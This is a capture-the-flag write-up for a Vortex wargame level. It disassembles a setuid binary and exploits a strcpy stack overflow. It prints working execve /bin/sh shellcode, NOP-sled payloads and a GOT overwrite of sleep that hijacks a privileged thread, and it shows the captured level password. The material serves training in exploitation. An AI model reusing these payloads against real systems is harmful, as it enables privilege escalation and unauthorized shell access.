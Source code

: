 Dump of assembler code for function main:
```assembly
   0x080486b8 <+0>:     push   ebp
   0x080486b9 <+1>:     mov    ebp,esp
   0x080486bb <+3>:     push   esi
   0x080486bc <+4>:     push   ebx
   0x080486bd <+5>:     and    esp,0xfffffff0
   0x080486c0 <+8>:     sub    esp,0x20
   0x080486c3 <+11>:    mov    DWORD PTR [esp+0xc],0x0
   0x080486cb <+19>:    mov    DWORD PTR [esp+0x8],0x804865d		# safecode function
   0x080486d3 <+27>:    mov    DWORD PTR [esp+0x4],0x0
   0x080486db <+35>:    lea    eax,[esp+0x1c]				# esp+0x1c = pthread_t struct
   0x080486df <+39>:    mov    DWORD PTR [esp],eax
   0x080486e2 <+42>:    call   0x8048550 <pthread_create@plt>		# create a new thread
   0x080486e7 <+47>:    call   0x8048530 <getgid@plt>			# returns the real group ID of the calling process
   0x080486ec <+52>:    mov    esi,eax					# esi
   0x080486ee <+54>:    call   0x8048530 <getgid@plt>
   0x080486f3 <+59>:    mov    ebx,eax					# ebx
   0x080486f5 <+61>:    call   0x8048530 <getgid@plt>			
   0x080486fa <+66>:    mov    DWORD PTR [esp+0xc],esi
   0x080486fe <+70>:    mov    DWORD PTR [esp+0x8],ebx
   0x08048702 <+74>:    mov    DWORD PTR [esp+0x4],eax			
   0x08048706 <+78>:    mov    DWORD PTR [esp],0xaa
   0x0804870d <+85>:    call   0x8048540 <syscall@plt>			# syscall --> sets effective, real and saved user id of (eax, ebx, esi)
   0x08048712 <+90>:    call   0x80484f0 <getuid@plt>			# which are all gid
   0x08048717 <+95>:    mov    esi,eax
   0x08048719 <+97>:    call   0x80484f0 <getuid@plt>			#get user id
   0x0804871e <+102>:   mov    ebx,eax
   0x08048720 <+104>:   call   0x80484f0 <getuid@plt>
   0x08048725 <+109>:   mov    DWORD PTR [esp+0xc],esi
   0x08048729 <+113>:   mov    DWORD PTR [esp+0x8],ebx
   0x0804872d <+117>:   mov    DWORD PTR [esp+0x4],eax
   0x08048731 <+121>:   mov    DWORD PTR [esp],0xa4
   0x08048738 <+128>:   call   0x8048540 <syscall@plt>			# syscall --> set hostname by inputing user id
   0x0804873d <+133>:   mov    eax,DWORD PTR [ebp+0xc]			
   0x08048740 <+136>:   add    eax,0x4
   0x08048743 <+139>:   mov    eax,DWORD PTR [eax]			# eax = argv[1]
   0x08048745 <+141>:   mov    DWORD PTR [esp],eax			# push argv[1]
   0x08048748 <+144>:   call   0x8048698 <unsafecode>			# unsafecode(argv[1]_
   0x0804874d <+149>:   mov    eax,0x0
   0x08048752 <+154>:   lea    esp,[ebp-0x8]
   0x08048755 <+157>:   pop    ebx
   0x08048756 <+158>:   pop    esi
   0x08048757 <+159>:   pop    ebp
   0x08048758 <+160>:   ret
```
Dump of assembler code for function unsafecode:
```assembly
   0x08048698 <+0>:     push   ebp
   0x08048699 <+1>:     mov    ebp,esp
   0x0804869b <+3>:     sub    esp,0x418				# allocate 0x418 = 1048
   0x080486a1 <+9>:     mov    eax,DWORD PTR [ebp+0x8]
   0x080486a4 <+12>:    mov    DWORD PTR [esp+0x4],eax
   0x080486a8 <+16>:    lea    eax,[ebp-0x408]
   0x080486ae <+22>:    mov    DWORD PTR [esp],eax
   0x080486b1 <+25>:    call   0x8048500 <strcpy@plt>			# strcpy(local_buffer, argv[1])
   0x080486b6 <+30>:    leave  
   0x080486b7 <+31>:    ret    
```
Dump of assembler code for function safecode:
```assembly
   0x0804865d <+0>:     push   %ebp
   0x0804865e <+1>:     mov    %esp,%ebp
   0x08048660 <+3>:     sub    $0x28,%esp
   0x08048663 <+6>:     movl   $0x0,-0xc(%ebp)
   0x0804866a <+13>:    mov    -0xc(%ebp),%eax
   0x0804866d <+16>:    mov    %eax,0x4(%esp)
   0x08048671 <+20>:    movl   $0x80487f0,(%esp)
   0x08048678 <+27>:    call   0x80484c0 <printf@plt>
   0x0804867d <+32>:    mov    0x804a040,%eax
   0x08048682 <+37>:    mov    %eax,(%esp)
   0x08048685 <+40>:    call   0x80484d0 <fflush@plt>
   0x0804868a <+45>:    movl   $0x1,(%esp)
   0x08048691 <+52>:    call   0x80484e0 <sleep@plt>
   0x08048696 <+57>:    jmp    0x804866a <safecode+13>
```
and a better way to look at it:
```c
#include <stdio.h>
#include <stdlib.h>
#include <pthread.h>
#include <string.h>
 
void *safecode(void *handle) {
    while(1) {
        int var = 0;
        printf("%d\n", var);
        fflush(stdout);
        sleep(1);
    }
}
```
simply enough, it seems like a simple buffer overflow, let's try:  
r $(python -c 'print "a"*1048') --> segmentation fault 0x61616161 --> it works  
r $(python -c 'print "a"*1036+"bbbb"') --> segmentation fault 0x62626262 --> now lets append a shellcode and try an address...  
r $(python -c 'print "a"*1036+"bbbb"+"\x90" * 64+"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc9\xb0\x0b\xcd\x80"')  
so we put 0xffffd2a0:  
./vortex8 $(python -c 'print "a"*1036+"\xb0\xd2\xff\xff"+"\x90" * 64+"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc9\xb0\x0b\xcd\x80"')  

and you thought it was so easy... the catch is we're still vortex8 (remember the part where the syscall was?):  
$ whoami
vortex8
so, we need to figure out a different way...  
we must somehow make the thread activate the shell, because the main function lacks the privliges...  
OK, so we will use a method we previously used in the vortex series: function hijacking  
Dump of assembler code for function sleep@plt:
```assembly
   0x080484e0 <+0>:     jmp    *0x804a014
   0x080484e6 <+6>:     push   $0x10
   0x080484eb <+11>:    jmp    0x80484b0
```
so we need to overwrite: 0x80484e2  
0x80484e2 <sleep@plt+2>:        0x0804a014  
export EGG
EGG=$(python -c 'print "\x90"*64 + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc9\xb0\x0b\xcd\x80"')
and we want to change its value to the value of the address 0xffffd920 (env var named EGG with shell in it)
thus, we need to change the shellcode in our buffer so that it will write 0xffffd920 to 0x804a014
assembly code:
```assembly
section .text                                                                
global main                                                                  
                                                                             
main:                                                                        
        mov ebx, DWORD 0x0804a014                                                                                                  
        mov [ebx], DWORD 0xffffd920
	jmp main
```
compile it and objdump the file to get:  
Disassembly of section .text:
```assembly
08048060 <main>:
 8048060:       bb 14 a0 04 08          mov    $0x804a014,%ebx
 8048065:       c7 03 20 d9 ff ff       movl   $0xffffd94b,(%ebx)
		eb f3			jmp main
```
--> \xbb\x14\xa0\x04\x08\xc7\x03\x20\xd9\xff\xff\xeb\xf3
so now we replace the shellcode with the following... (note: I had to change the return address to 0xffffd860, because I had to restart the session
and as a result the adresses changed a lot...)
/vortex/vortex8 $(python -c 'print "a"*1036+"\x60\xd8\xff\xff"+"\x90" * 64 + "\xbb\x14\xa0\x04\x08\xc7\x03\x20\xd9\xff\xff\xeb\xf3"')

at last, we get:
$ whoami
vortex9
$ cat /etc/vortex_pass/vortex9
ci41)GJhb
